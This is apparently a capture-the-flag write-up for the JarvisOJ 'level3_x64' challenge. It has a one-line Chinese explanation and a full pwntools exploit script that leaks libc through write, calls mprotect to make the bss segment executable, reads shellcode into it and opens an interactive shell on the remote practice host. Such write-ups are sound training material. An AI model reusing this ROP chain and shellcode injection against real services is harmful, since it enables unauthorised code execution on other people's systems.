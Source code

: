    先通过write泄露libc，然后调用mprotect()把bss段权限设为可读可写可执行（7），再调用read()在bss段写入shellcode，返回到bss段执行shellcode

   ```python
   from pwn import *
   import sys
   r = remote('pwn2.jarvisoj.com', 9884)
   elf = ELF('./level3_x64')
   libc = ELF('./libc-2.19.so')
   context.binary = "./level3_x64"
   
   shellcode = asm(shellcraft.sh())
   padding = 'a' * (0x80 + 0x8)
   pwn_addr = 0x4005E6
   
   write_plt = elf.plt['write']
   write_got = elf.got['write']
   write_libc =  libc.symbols['write']
   
   read_plt = elf.plt['read']
   
   mprotect_libc = libc.symbols['mprotect']
   
   pop_rdi_ret = 0x4006b3
   pop_rsi_p_r_ret = 0x4006b1
   
   payload = padding
   payload += p64(pop_rdi_ret) + p64(1)
   payload += p64(pop_rsi_p_r_ret) + p64(write_got) + p64(8)
   payload += p64(write_plt)
   payload += p64(pwn_addr)
   
   
   r.recvuntil('Input:\n')
   r.sendline(payload)
   leak_addr = u64(r.recv(8))
   
   libc_base = leak_addr - write_libc
   mprotect = libc_base + libc.symbols['mprotect']
   pop_rsi = libc_base + 0x24885
   pop_rdx = libc_base + 0x1B8E
   
   
   payload2 = padding + p64(pop_rdi_ret)
   payload2 += p64(0x600000) + p64(pop_rsi)
   payload2 += p64(0x10000) + p64(pop_rdx)
   payload2 += p64(7) + p64(mprotect) + p64(pwn_addr)
   r.recvuntil('Input:\n')
   r.sendline(payload2)
   
   bss = elf.bss()
   
   payload3 = padding + p64(pop_rdi_ret)
   payload3 += p64(0) + p64(pop_rsi)
   payload3 += p64(bss) + p64(pop_rdx)
   payload3 += p64(0x100) + p64(read_plt) + p64(bss)
   r.recvuntil('Input:\n')
   r.sendline(payload3)
   r.send(shellcode)
   
   r.interactive()
   
   ```
